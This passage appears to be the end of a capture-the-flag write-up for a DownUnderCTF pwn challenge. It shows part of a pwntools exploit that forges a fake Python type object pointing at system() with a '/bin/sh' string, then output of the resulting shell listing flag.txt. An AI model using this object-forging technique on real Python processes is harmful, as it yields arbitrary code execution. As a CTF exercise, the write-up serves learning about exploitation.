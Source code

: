 ```python3 {script_name="exploit.py"}
	fake_obj = b"\x2ebin/sh\x00"
	fake_obj += p64(pytypeobj)
	fake_obj += p64(system) #pytypeobj+0x58 will go here
	fake_obj += b"\x00"*(72-len(fake_obj)) #make everything else NULL, including tp_str

	#send it
	p.sendlineafter(b"fakeobj: ", fake_obj.hex().encode("ascii"))
	p.interactive()
```

```bash
[+] Starting local process 'dbg_py/python': pid 775817
[*] Object Address: 0x7f25d117dc10
[*] System(): 0x7f25d1675050
[*] Switching to interactive mode
$ ls
core    Dockerfile  flag.txt
dbg_py  fakeobj.py  solve.py
```

If you'd like to know more about the other challenge I *didn't* solve, Read-Write, check out the official writeup [here](https://github.com/DownUnderCTF/Challenges_2025_Public/blob/main/pwn/rw.py/solve/solv.py) if you're interested in getting a bit more technical with this concept.
